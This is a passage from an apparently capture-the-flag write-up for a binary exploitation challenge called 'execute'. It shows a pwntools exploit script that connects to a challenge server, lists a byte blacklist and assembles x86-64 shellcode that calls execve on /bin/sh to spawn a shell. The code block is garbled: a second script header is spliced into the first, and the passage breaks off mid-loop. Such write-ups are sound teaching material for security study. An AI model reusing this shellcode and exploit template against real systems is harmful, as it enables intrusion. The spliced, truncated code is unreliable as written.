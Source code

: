 
### Shellcode

Back to our challenge, there is a filter here so the easy way is craft a simple `shellcode` to see which bytes are filtered:

```python
from pwn import *

exe = './execute'
elf = context.binary = ELF(exe, checksec=True)
c#!/usr/bin/python3

from pwn import *

context.log_level = 'debug'
exe = context.binary = ELF('./execute', checksec=False)

# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv()
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

c
''')

p = remote('94.237.57.222',53132) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB:
    GDB()
    input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

blacklist = b"\\x3b\\x54\\x62\\x69\\x6e\\x73\\x68\\xf6\\xd2\\xc0\\x5f\\xc9\\x66\\x6c\\x61\\x67"

shellcode = asm(
    '''
    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
    ''', arch='amd64')

for byte in shellcode:
    if byte in blacklist:
```
